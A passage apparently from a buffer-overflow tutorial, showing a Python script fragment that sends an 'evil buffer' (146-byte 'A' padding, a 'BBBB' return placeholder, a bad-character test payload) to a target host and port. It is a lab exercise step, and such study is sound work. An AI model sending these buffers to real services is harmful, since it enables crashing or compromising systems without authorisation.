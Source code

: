 ```
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = ""
	offset = 146
	overflow = "A" * offset
	retn = "BBBB"
	padding = ""
	payload = badChars
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```





<figure><img src="../../.gitbook/assets/image (71) (1).png" alt=""><figcaption></figcaption></figure>
